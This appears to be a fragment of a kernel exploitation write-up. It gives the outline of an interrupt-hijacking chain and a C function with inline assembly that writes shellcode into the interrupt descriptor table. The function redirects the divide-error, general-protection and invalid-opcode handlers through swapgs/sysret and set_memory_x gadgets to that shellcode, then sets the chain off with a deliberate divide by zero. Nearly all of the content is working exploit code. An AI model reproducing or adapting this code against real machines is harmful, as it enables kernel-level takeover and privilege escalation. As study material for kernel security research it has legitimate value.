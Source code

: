 # chain

The chain will be:
- div by 0 -> swapgs; sysret ->
- GPF (rcx non canonical) -> set_memory_x(idt_fixed_address, 1) ->
- ud2 -> IDT -> shellcode

```c
void  fetipop(){
	// backup original IDT
	idt_backup  =  mmap(NULL, PAGE_SIZE, PROT_READ  |  PROT_WRITE, MAP_PRIVATE  |  MAP_ANONYMOUS  |  MAP_POPULATE, -1, 0);
	memcpy(idt_backup, idt, PAGE_SIZE);

	// write shellcode on IDT (most of the entries are empty)
	memcpy(idt  +  SHELLCODE_OFFSET, shellcode, sizeof(shellcode));

	// write IOPchain
	/*
		div by 0 -> swapgs; sysret ->
		GPF (rcx non canonical) -> set_memory_x(idt_fixed_address, 1) ->
		ud2 -> IDT -> shellcode
	*/

	set_handler(&idt[INTERRUPT_DESCRIPTOR_SIZE  *  DIV_ERROR_IDX], kbase  +  SWAPGS_SYSRET, 0);
	set_handler(&idt[INTERRUPT_DESCRIPTOR_SIZE  *  GPF_IDX], kbase  +  SET_MEMORY_X, 0);
	set_handler(&idt[INTERRUPT_DESCRIPTOR_SIZE  *  INVALID_OP_IDX], IDT_FIXED_ADDRESS  +  SHELLCODE_OFFSET, 0);

	// registers won't be changed, so we control sysret and set_memory_x parameters
	// start IOPchain with div rax (rax == 0)
	asm  volatile (
		".intel_syntax  noprefix\n"
		"mov  rdi, %0\n"
		"mov  rsi, 1\n"
		"mov  rcx, 0x800000000000\n" // non-canonical address in order to make sysret throw gpf
		"mov  rax, 0\n"
		"div  rax\n"
		".att_syntax  prefix"
		:
		: "r" (IDT_FIXED_ADDRESS)
		: "rax"
	);
}
```
